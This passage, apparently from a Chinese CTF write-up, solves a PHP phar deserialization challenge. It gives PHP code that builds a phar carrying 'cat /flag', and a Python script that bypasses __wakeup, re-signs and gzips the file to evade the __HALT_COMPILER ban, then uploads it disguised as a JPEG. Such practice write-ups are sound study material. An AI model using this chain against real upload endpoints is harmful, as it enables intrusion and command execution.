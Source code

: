 ```php
}
?>
```

分析源码可知ban掉了 `__HALT_COMPILER();` 标识，没有这个是不认phar的，这个可以使用gzip压缩进行绕过。

`__wakeup` 修改序列属性个数即可绕过，注意修改完phar文件后还需重新签名，用上文的脚本即可。

生成phar：
```php
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct($ljt, $dky, $cmd){
        $this->ljt = $ljt;
        $this->dky = $dky;
        $this->cmd = $cmd;
    }
}
 
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new LoveNss("Misc", "Re", "cat /flag");
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

修改签名并上传文件，访问后触发phar反序列化拿到flag。

exp:
```
import requests
from hashlib import sha1
import gzip
import re
def getPhar():
    with open('phar.phar', 'rb') as file:
        f = file.read()
    s = f[:-28] # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）
    s = s.replace(b'3:{', b'4:{')# 绕过__wakeup
    h = f[-8:] # 获取签名类型以及GBMB标识，各4个字节
    newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)
    return gzip.compress(newf)# 进行gzip压缩
 
def upload(file):
    burp0_url = "http://1.14.71.254:28403/upload.php"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://1.14.71.254:28403", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryfXBfemuGHEVNBhN8", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    burp0_data = b"------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"file\"; filename=\"phar.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n" + file + b"\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\n\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8--\r\n"
    # 注意数据类型为byte类型，应该file为byte类型，相同数据类型才能合并
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
 
```